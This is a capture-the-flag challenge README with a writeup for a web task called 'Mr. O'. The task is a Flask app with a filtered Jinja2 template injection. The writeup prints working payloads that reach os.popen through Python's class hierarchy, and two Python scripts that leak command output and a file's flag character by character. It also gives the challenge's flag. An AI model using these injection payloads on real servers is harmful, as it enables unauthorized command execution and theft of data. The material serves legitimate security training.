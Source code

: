 # Mr. O

p.s. For testing, go to [INSTALL.md](https://github.com/MasonCompetitiveCyber/PatriotCTF-2022/blob/main/Web/Mr%20O/INSTALL.md)

### Description
I am in the process of making the next big social media platform but I have a history of implementing software insecurely. If you can get view the admin.html page, I will give you a flag. 

Hacked again, so I am now filtering those special words and characters, but I won't tell you what they are so you can't find out how I was hacked. I will give you guys a couple characters back because I got some complaints about going overboard with it, especially about not being able to use a period on a messaging service.

p.s. to save you some time, don't try getting a reverse shell

### Difficulty
Hard

### Flag
`PCTF{chri5_bumst34d_i5_100king_thicc}`

### Hints
1. template injection
2. command execution
3. blind read w/ comparison to leak output

### Author
Daniel Getter (NihilistPenguin)

### Tester
None yet

### Writeup

This web app is alos vulnerable to template injection, but `{{` and `}}` is filtered, so we can't use the same method. Jinja has support for if statement templates that look like this: `{% if 'test' == 'test' %} render this string if true {% endif %}`. Let's see what happens when we send this message:
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF2022-Public/raw/main/writeup-images/jinja_if.png" width=40%  height=40%></p>

Since Python is an OOP language, we can Method Resolution Order (MRO) to traverse across classes to a method we want, such as `os.popen`. Read more about this here: https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/. The following payload makes use of this to run the `ls` command: `{% if request.application.__globals__.__builtins__.__import__('os').popen('ls').read() == 'test' %} a {% endif %}`

The problem is that we won't see the output. Instead of `ls`, you could just put a reverse shell and that'd be it, but I removed netcat from the docker and filtered basically any other useful special character so people can't do this.

We can instead do a blind test for the output of the command: `{% if request.application.__globals__.__builtins__.__import__('os').popen('ls').read().startswith('" + str(x) + "') %} found {% endif %}`

If we put any character in `x`, then we can test if the output of the `ls` command starts with that character by checking if we see `found` returned back to us. Let's run this with the letter "D": `{% if request.application.__globals__.__builtins__.__import__('os').popen('ls').read().startswith('D') %} found {% endif %}`
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF2022-Public/raw/main/writeup-images/ssti_found.png" width=40%  height=40%></p>

I chose "D" because `Dockerfile` is the first file in the docker. We just need to script this so we can see the whole output of `ls`. Once we have that, we can try to find the path to the `/admin.html` page so we can read the flag.

Here is the script:
```python
from os import popen
import string
import requests

SERVER_ADDR = "http://127.0.0.1:5000" # replace this with the actual IP of the docker

def get_cookie():
    data = {
        "username": "test", # make sure to make a test:test user first
        "password": "test" 
    }

    req = requests.post(SERVER_ADDR+"/login", data=data)
    cookiejar = req.history[0].cookies
    cookie = cookiejar.get_dict()['session']

    return cookie

cookie = {"session": get_cookie()}

final = ""
while True:
    for x in string.printable:
        x = final + x
        payload = {'message':"{% if request.application.__globals__.__builtins__.__import__('os').popen('ls').read().startswith('" + str(x) + "') %} found {% endif %}", 
        'username':'admin'}
        r = requests.post(url=SERVER_ADDR + "/messages", data=payload, cookies=cookie)
        if 'found' in r.text:
            final = x
            print(final)
            break
        else:
            pass
```

Let's run it:
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF2022-Public/raw/main/writeup-images/ssti_ls.png" width=40%  height=40%></p>

We see the directory strucutre. We can keep running this until we find the /admin.html file, but I'll skip that. I use a basic flask directory structure, so it is located in `/app/templates/admin.html`. Now let's read the file. There is a lot of HTML fluff that would make the process take forever, so we can speed it up by grepping for `Flag` first. Here's the script:
```python
from os import popen
import string
import requests

SERVER_ADDR = "http://127.0.0.1:5000"

def get_cookie():
    data = {
        "username": "test", 
        "password": "test" 
    }

    req = requests.post(SERVER_ADDR+"/login", data=data)
    cookiejar = req.history[0].cookies
    cookie = cookiejar.get_dict()['session']

    return cookie

cookie = {"session": get_cookie()}

final = "Flag: PCTF{"
while True:
    for x in string.printable:
        x = final + x
        payload = {'message':"{% if request.application.__globals__.__builtins__.__import__('os').popen('grep -io flag.*\} ./app/templates/admin.html').read().startswith('" + str(x) + "') %} found {% endif %}", 
        'username':'admin'}
        r = requests.post(url=SERVER_ADDR + "/messages", data=payload, cookies=cookie)
        if 'found' in r.text:
            final = x
            print(final)
            break
        else:
            pass
```

Let's run it:
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF2022-Public/raw/main/writeup-images/underground_flag.png" width=40%  height=40%></p>